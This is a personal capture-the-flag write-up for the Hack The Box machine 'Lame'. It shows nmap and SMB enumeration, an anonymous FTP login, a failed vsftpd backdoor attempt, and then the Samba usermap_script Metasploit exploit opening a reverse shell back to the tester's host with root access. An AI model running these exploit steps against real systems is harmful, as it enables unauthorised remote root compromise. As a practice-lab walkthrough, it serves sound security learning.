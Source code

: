 # Lame 10.10.10.3 - Linux

## 00 - Initial Attempt, 01/25/2020

`nmap -A 10.10.10.3`

```shell
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

Attempted `smbclient -L 10.10.10.3 -p 445` as well as port `139`
  received: `protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED`


Possible CVE: https://www.samba.org/samba/security/CVE-2017-7494.html


Attempted: `enum4linux 10.10.10.3`

```shell
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Jan 25 05:24:54 2020

 ==========================
|    Target Information    |
 ==========================
Target ........... 10.10.10.3
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
```

Attempted: `smbmap -H 10.10.10.3 -P 445 -v`

```shell
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.3...
[+] 10.10.10.3:445 is running Unix (name:LAME) (domain:LAME)
```

## 01 - Second Attempt, 05/04/2020

`nmap -Pn -A -T4 -p- 10.10.10.3`

```shell
thoth@kali:~/Projects/htb-notes/machines/Lame/dumps$ nmap -Pn -A -T4 -p- 10.10.10.3
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 21:58 EDT
Nmap scan report for 10.10.10.3
Host is up (0.030s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.53
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h03m33s, deviation: 2h49m43s, median: 3m32s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-05-04T22:04:14-04:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 141.97 seconds

```

#### Initial Notes

 - 21 running FTP with anon logins
  - "connected to 10.10.14.53" ?
  - vsFTPd 2.3.4
 - 22 ssh
  - OpenSSH 4.7p1
 - 139 smb
  - `Samba smbd 3.X - 4.X (workgroup: WORKGROUP)`
 - 445 smb
  - `Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)`
 - 3632 distccd?
  - `distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))`
  - This is a p2p network distributed C/C++ compiler

Logged in to `ftp 10.10.10.3` as `anonymous`, but the cupboards seem bare...

```shell
thoth@kali:~/Projects/htb-notes/machines/Lame$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:thoth): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> pwd
257 "/"
```

Attempting to place a file fails:

```shell
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful. Consider using PASV.
553 Could not create file.
```

There does appear to be a metasploit lead:

```shell
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

It fails.

```shell
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

Performed an SMB version scan:

```shell
msf5 auxiliary(scanner/smb/smb_version) > run

[*] 10.10.10.3:445        - Host could not be identified: Unix (Samba 3.0.20-Debian)
```

## Metasploit Success

Searched for the `3.0.20` version in MSF:

```shell
msf5 > search 3.0.20

Matching Modules
================

   #  Name                                                   Disclosure Date  Rank       Check  Description
   -  ----                                                   ---------------  ----       -----  -----------
   0  auxiliary/admin/http/wp_easycart_privilege_escalation  2015-02-25       normal     Yes    WordPress WP EasyCart Plugin Privilege Escalation
   1  exploit/multi/samba/usermap_script                     2007-05-14       excellent  No     Samba "username map script" Command Execution


msf5 > use 1
msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP double handler on 10.10.14.53:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo FKrQJOaETOA0KVVF;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "FKrQJOaETOA0KVVF\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.53:4444 -> 10.10.10.3:51941) at 2020-05-04 22:29:07 -0400

whoami
root
hostname
lame
```

Found user flag in `/home/makis/user.txt`

Root flag in `/root/root.txt`